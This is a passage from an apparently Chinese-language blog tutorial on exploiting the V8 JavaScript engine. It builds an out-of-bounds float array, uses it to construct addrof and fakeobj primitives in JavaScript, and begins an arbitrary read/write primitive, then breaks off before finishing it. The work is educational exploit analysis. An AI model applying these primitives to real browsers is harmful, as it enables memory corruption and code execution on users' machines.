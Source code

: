 `vuln_array[16]`是调试算出来的偏移，正好是`oob_array`的`length`所在，现在我们获得了一个可以进行`8`字节越界读写的浮点数组：  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210727193453.png)

addrof/fakeobj
--------------

回忆一下`oob_array`和`vuln_array`的内存布局：  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210728173056.png)  
之前我们通过`vuln_array[16]`修改了`oob_array`的长度，除此之外，我们还可以通过`oob_array`和`vuln_array`来构造出`addrof`和`fakeobj`原语。首先构造`addrof`：

```
function addrof(obj) {
vuln_array[7] = obj;
 
return helper.f2i(oob_array[0]) & 0xFFFF_FFFFn;
}

```

`vuln_array[7]`指向的地方正好是`oob_array[0]`的低四字节，我们将`obj`写入其中。之后通过`oob_array[0]`将八字节长度的值读出来，高四字节全部置零之后就是`obj`的值了。接着是`fakeobj`：

```
function fakeobj(addr) {
oob_array[0] = helper.i2f(addr);
 
return vuln_array[7];
}

```

和`addrof`的原理是一样的，最终将`oob_array[0]`中的值当作一个对象指针返回。

任意地址读写
------

我们现在有了`OOB`、`addrof`、`fakeobj`三个原语，足够实现更加强大的任意地址读写了。

```
function get_arw() {
console.log("[+] get absolute read/write access......");
 
let oob_array_map_and_properties = helper.f2i(oob_array[3]);
let point_array = [helper.i2f(oob_array_map_and_properties), 1.1, 1.2, 1.3];
fake = fakeobj(addrof(point_array) - 0x20n);
%DebugPrint(point_array);
%SystemBreak();
}

```

`oob_array[3]`保存的是`oob_array`本身的`map`和`properties`，利用他们俩我们可以构造一个`elements`和`length`都完全由我们控制的数组，诸如`point_array`的内存布局：  
![](http://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/Pasted-image-20210728193824.png)  
`point_array[0]`中就是我们复制来的`map`和`properties`，如果用`fakeobj`原语把`point_array[0]`当作是一个对象来返回，那么`point_array[1]`中的值就是`elements`和`length`，既然我们可以任意的改写`point_array[1]`，也就意味着我们可以将任意`length`长度的数据写到`elements`指向的地方，具体实现如下：
